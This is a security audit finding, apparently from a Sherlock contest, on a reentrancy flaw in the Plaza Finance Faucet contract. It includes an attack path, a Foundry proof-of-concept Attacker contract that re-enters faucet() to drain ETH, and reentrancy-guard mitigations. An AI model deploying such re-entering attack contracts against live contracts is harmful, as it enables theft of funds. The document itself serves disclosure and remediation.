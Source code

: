 Rhythmic Golden Frog

High

# An attacker can drain ETH from the Faucet contract due to a reentrancy vulnerability.

### Summary

A missing reentrancy guard in the `faucet()` function will cause a complete loss of ETH in the contract for the protocol as an attacker will exploit recursive calls via a malicious contract.

### Root Cause

In `Faucet.sol:70`, the faucet function sends ETH to a user-controlled address without implementing reentrancy protection ([Lines 70-74](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Faucet.sol#L70)), enabling recursive calls through the attacker's malicious contract:

```solidity
if (amountEth > 0) {
    (bool success,) = payable(user).call{value: amountEth}("");  // Vulnerable ETH transfer
    require(success, "Faucet: ETH transfer failed");
}
```

### Internal Pre-conditions

- The attacker must call `addToWhitelist()` to add their malicious contract to the whitelist.
- The Faucet contract must hold a non-zero ETH balance.


### External Pre-conditions

- Gas limits must be high enough to allow multiple recursive calls.
- The attacker must deploy a malicious contract with a receive() function that re-enters the faucet() function.

### Attack Path

1. Attacker deploys malicious contract with a `receive()` function that calls `faucet()`
2. Attacker whitelists their contract through `addToWhitelist`
3. Attacker calls `faucet(0, 0, 0, 1 ether, address(this))` on their contract
4. During ETH transfer, malicious contract's receive() re-enters faucet()
5. Process repeats recursively until:
    - Faucet ETH balance is fully drained, or
    - Transaction reaches gas limits

### Impact

The Faucet contract suffers complete loss of its ETH balance (up to 100% of funds). The attacker gains all drained ETH with minimal cost (only gas for initial transaction).

### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "../src/Faucet.sol";

contract FaucetTest is Test {
    Faucet faucet;
    Attacker attacker;

    function setUp() public {
        // Deploy contracts
        faucet = new Faucet(address(0), address(0), address(0));
        attacker = new Attacker(faucet);
        
        // Whitelist attacker through deployer (test contract is whitelisted by default)
        faucet.addToWhitelist(address(attacker));
        
        // Fund faucet with 10 ETH
        vm.deal(address(faucet), 10 ether);
    }

    function testReentrancyAttack() public {
        uint256 initialFaucetBalance = address(faucet).balance;
        uint256 initialAttackerBalance = address(attacker).balance;

        // Perform attack
        attacker.attack();

        // Verify results
        assertEq(
            address(attacker).balance,
            initialAttackerBalance + 4 ether,
            "Attacker should have stolen 4 ETH"
        );
        assertEq(
            address(faucet).balance,
            initialFaucetBalance - 4 ether,
            "Faucet should have lost 4 ETH"
        );
    }
}

contract Attacker {
    Faucet public immutable target;
    uint256 public count;
    
    constructor(Faucet _target) {
        target = _target;
    }
    
    function attack() external {
        target.faucet(0, 0, 0, 1 ether, address(this));
    }
    
    receive() external payable {
        if (count < 3) {  // Will reenter 3 times
            count++;
            target.faucet(0, 0, 0, 1 ether, address(this));
        }
    }
}
```

### Mitigation

1. Add a Reentrancy Guard: Use a nonReentrant modifier to prevent recursive calls:
```solidity
bool private locked;

modifier nonReentrant() {
    require(!locked, "Reentrant call");
    locked = true;
    _;
    locked = false;
}

function faucet(...) public nonReentrant {
    // existing code
}
```


2. Follow the Checks-Effects-Interactions Pattern: Ensure state changes are made before external calls:
```solidity
function faucet(...) public {
    require(...);
    // Perform all state updates here
    if (amountEth > 0) {
        (bool success, ) = payable(user).call{value: amountEth}("");
        require(success, "ETH transfer failed");
    }
}
```

3. Use OpenZeppelin’s ReentrancyGuard: Replace the custom reentrancy guard with OpenZeppelin’s battle-tested implementation for simplicity and reliability.

